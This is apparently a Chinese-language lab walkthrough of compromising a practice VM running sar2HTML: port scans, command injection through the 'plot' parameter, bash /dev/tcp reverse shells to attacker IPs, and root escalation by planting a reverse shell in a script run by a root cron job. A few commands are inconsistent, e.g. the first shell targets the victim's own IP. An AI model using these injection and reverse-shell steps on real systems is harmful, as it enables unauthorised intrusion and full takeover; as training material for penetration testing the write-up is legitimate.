先进行端口扫描

```
nmap -p- --min-rate 10000 192.168.174.139
```

```
nmap -sU --top-ports=100 --min-rate 10000 192.168.174.139
```

```
nmap -sC -sV -sT -O -p80 192.168.174.139
```

```
nmap --script=vuln -p80 192.168.174.139
```



有用的只有这一个

是一个80端口的http页面

```
gobuster dir -u "http://192.168.174.139" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -b 400,404 2>/dev/null
```

只有一个robots.txt

查看



第一次看到这个‘sar2HTML的时候’，只想到这可能是个框架，在漏洞库里搜索这个框架



- 这个漏洞的原理是在?plot参数后面这样写?plot=;xxx,xxx可以是任何命令，都可以用于执行，在我打靶机的过程中，卡到这里始终没有进展，查看资料才发现，原来这个还可以当url目录（以后有奇怪的数字字母都可以试试）
- 当然除了找漏洞库，命令中有一个工具叫searchsploit，使用如下



进入网页后点了几下，果真发现了plot参数



看到有个文件上传，有点想试试，但是有明着的漏洞，尝试一下，输入参数

```
?plot;id
```



看到有作用，尝试进行反弹shell

```
bash -c 'bash -i &>/dev/tcp/192.168.174.139/4444 0>&1'
```

直接输入在url里输入没用，应该是被过滤了



经过url编码后再输入，成功拿到临时shell（如果是exec bash -i会删除父进程，适合隐蔽性高，更高级bash的情况）



拿到临时shell看到这种的时候，一般都需要升级终端，变成交互式shell（TTY）



依旧老三步，最终得到命令完整的伪终端



进行信息收集

```
find / -perm -4000 -type f 2>/dev/null
```

```
find / -writable -type f 2>/dev/null | grep -v proc | grep -v sys
```

没有发现什么异常提权的地方，除了查看拥有写入，suid权限的，还可以通过sudo -l ，cat /etc/crontab来寻找有用信息（这台靶机我忽略了/etc/crontab）

- crontab是linux中一个用户管理定时进行运行的工具文件

```
cat /etc/crontab
```



发现./findally.sh问价，并且是以root用户每五分钟运行一次，感觉最有可能

```
cd /var/www/html
```

```
ls -la
```



我们对finally.sh没有写入权限，先查看内容

```
cat ./finally.sh
```



脚本运行后是运行write.sh

这个文件我们是有所有权限的

``` 
echo '#!/bin/sh' > write.sh
```

```
echo 'bash -i &>/dev/tcp/192.168.174.128/555 0>&1'
```

(这里有个疑惑，为甚不能直接echo '/bin/bash' > write.sh,最后面解答)

打开监听

```
nc -lvnp 555
```



等待五分钟后成功拿到root

